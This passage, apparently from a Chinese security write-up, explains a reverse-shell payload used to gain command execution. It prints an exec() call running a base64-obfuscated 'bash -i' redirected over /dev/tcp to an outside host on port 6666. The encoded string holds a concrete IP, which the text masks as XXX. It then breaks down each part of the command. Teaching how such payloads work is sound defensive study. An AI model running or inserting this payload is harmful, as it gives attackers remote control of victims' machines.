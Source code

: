 ```bash
```

重点 payload 点在这里，通过其反弹 shell，达到任意命令执行

```bash
exec(\"bash -c {echo,YmFzaCAtaSAmPiAvZGV2L3RjcC8xMTguODkuMTAxLjU2LzY2NjYgMDwmMQ==}|{base64,-d}|{bash,-i}\")
```

这段代码是一个使用 bash 反弹 shell 的命令，它使用了 base64 编码来隐藏命令内容。

-   `bash -c`，你可以在命令行中指定一个命令或命令字符串，并要求 bash 解释器执行它。
    
-   `YmFzaCAtaSAmPiAvZGV2L3RjcC8xMTguODkuMTAxLjU2LzY2NjYgMDwmMQ==`：
    
    ```bash
    bash -i &> /dev/tcp/XXX.XX.XX.XX/6666 0<&1
    ```
    
    -   `bash -i`：这是执行一个交互式的 Bash Shell 的命令。
    -   `&>`：这是 I/O 重定向的语法，将标准输出和标准错误输出都重定向到后面指定的位置。
    -   `/dev/tcp/XXX.XX.XX.XX/6666`：这是一个特殊的文件路径，它表示网络套接字。具体来说，`/dev/tcp`是 Linux 中的一个虚拟文件系统，可以用来进行网络通信。
    -   `0<&1`：这是另一个 I/O 重定向，将标准输入（文件描述符 0）指向标准输出（文件描述符 1），这样就可以实现输入和输出的重定向。
    
    综合起来，这段代码的作用是创建一个反向连接，将 Bash Shell 与远程主机上的某个端口进行连接。它将标准输入、标准输出和标准错误输出重定向到网络套接字，从而实现与远程主机的交互式 Shell 会话。
    
-   `base64,-d`：这是一个 base64 解码器的命令，它会将 base64 编码的字符串转换回原始内容。
    
-   `bash,-i`：这是执行一个交互式的 bash shell 的命令。
    

综合起来，这段代码的作用是将经过 base64 编码的命令进行解码，并在本地机器上执行一个交互式的 bash shell。也就是说，它试图建立一个反向连接，使得攻击者可以通过该连接与目标机器进行交互并执行命令。

接着用自己的 VPS 连接，命令执行即可

[![](assets/1700442594-3943ea7ba30598d0d4c8ce7055d52282.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155708-12910f30-85e8-1.png)
